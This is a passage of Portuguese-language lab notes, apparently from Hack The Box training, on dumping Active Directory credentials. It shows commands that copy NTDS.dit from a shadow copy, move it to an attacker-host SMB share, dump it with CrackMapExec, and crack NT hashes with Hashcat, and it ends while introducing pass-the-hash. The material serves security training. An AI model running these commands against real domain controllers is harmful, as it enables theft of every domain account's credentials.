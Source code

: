 #### Copiando NTDS.dit do VSS
Podemos então copiar o arquivo NTDS.dit da cópia de sombra do volume C: para outro local na unidade para preparar a movimentação do NTDS.dit para nosso host de ataque.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
![[Pasted image 20240913170548.png]]

Antes de copiar ``NTDS.dit`` para nosso host de ataque, podemos querer usar a técnica que aprendemos anteriormente para criar um compartilhamento SMB em nosso host de ataque. Sinta-se à vontade para voltar à `Attacking SAM`seção para revisar esse método, se necessário.

#### Transferindo NTDS.dit para o Host de Ataque
Agora `cmd.exe /c move` pode ser usado para mover o arquivo do DC de destino para o compartilhamento em nosso host de ataque.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```
![[Pasted image 20240913170643.png]]

#### Um método mais rápido: usando cme para capturar NTDS.dit
Alternativamente, podemos nos beneficiar do uso do CrackMapExec para realizar os mesmos passos mostrados acima, tudo com um comando. Este comando nos permite utilizar o VSS para capturar e despejar rapidamente o conteúdo do arquivo NTDS.dit convenientemente dentro da nossa sessão de terminal.

```shell-session
NycolasRamos@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
![[Pasted image 20240913171023.png]]

## Quebrando Hashes e Obtendo Credenciais
Podemos prosseguir criando um arquivo de texto contendo todos os hashes do NT ou podemos copiar e colar individualmente um hash específico em uma sessão de terminal e usar o Hashcat para tentar quebrar o hash e uma senha em texto simples.

#### Quebrando um único hash com Hashcat
```shell-session
NycolasRamos@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240913171101.png]]

Em muitas das técnicas que abordamos até agora, tivemos sucesso em quebrar os hashes que obtivemos.
`What if we are unsuccessful in cracking a hash?`

## Considerações sobre o Pass-the-Hash
Ainda podemos usar hashes para tentar autenticar com um sistema usando um tipo de ataque chamado `Pass-the-Hash`( `PtH`). Um ataque PtH aproveita o [protocolo de autenticação NTLM](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials) para autenticar um usuário usando um hash de senha. Em vez de `username`: `clear-text password`como formato para login, podemos usar `username`: `password hash`. Aqui está um exemplo de como isso funcionaria:
